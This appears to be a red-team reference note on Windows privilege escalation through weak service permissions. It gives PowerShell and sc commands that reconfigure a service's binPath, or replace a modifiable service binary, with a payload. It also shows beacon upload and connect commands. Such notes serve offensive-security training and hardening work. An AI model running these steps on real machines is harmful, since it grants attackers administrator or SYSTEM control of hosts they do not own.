 # Weak Service Permissions
Identify weak [[Windows Services]] permissions via [[Tools/SharpUp]].

## Change BinPath via ChangeConfig
1. Identify vulnerable config via Get-ServiceAcl.ps1
``````powershell
Import-Module C:\Tools\Get-ServiceAcl.ps1
Get-ServiceAcl -Name VulnService | select -expandproperty Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
``````
2. **Authenticated Users** have **ChangeConfig**, **Start** and **Stop** privileges
3. Change binPath
``````powershell
sc qc VulnService
sc config VulnService binPath= C:\Temp\test-service.exe
#query config
sc qc VulnService
#query status
sc query VulnService
sc stop VulnService
sc start VulnService
``````

## Change Service Binary
1. Identify BUILTIN\Users have **Modify**
``````powershell
Get-Acl -Path "C:\Program Files\VulnService\Service.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\VulnService\Service.exe
Owner  : BUILTIN\Administrators
Group  : wkstn1\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
 BUILTIN\Administrators Allow  FullControl
 BUILTIN\Users Allow  Modify, Synchronize
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
``````
2. Manipulate the service binary
``````powershell
sc stop VulnService
beacon> upload C:\Payloads\Service.exe
run sc start VulnService
#if tcp beacon
beacon> connect localhost 4444
``````


## Tools
########
########


```meta
ttp: T1000
requirements: 
results: admin
description: Weak service permissions can be abused in order to change the binpath
```